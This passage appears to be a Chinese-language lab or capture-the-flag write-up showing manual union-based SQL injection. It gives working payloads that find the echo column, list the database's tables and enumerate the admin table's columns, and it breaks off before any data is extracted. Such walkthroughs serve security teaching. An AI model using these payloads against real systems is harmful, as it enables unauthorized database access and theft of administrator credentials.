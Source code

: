   ![](./img/order5.png)
- 接下来直接查看回显点。
  ```sql
  1' union select 1,2,3,4 --+
  ```
  ![](./img/union.png)
- 查看所有表名，可以看到有三个表名分别为 `admin,comment,users` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(table_name),4 from information_schema.tables where table_schema=database() --+
  ```
  ![](./img/name.png)
- 接下来查看`admin`表的所有字段，可以看到有三个字段分别为 `admin_id,admin_name,admin_pass` 。
  ```sql
  1' and 1=2 union select 1,2,group_concat(column_name),4 from information_schema.columns where table_name='admin' --+
  ```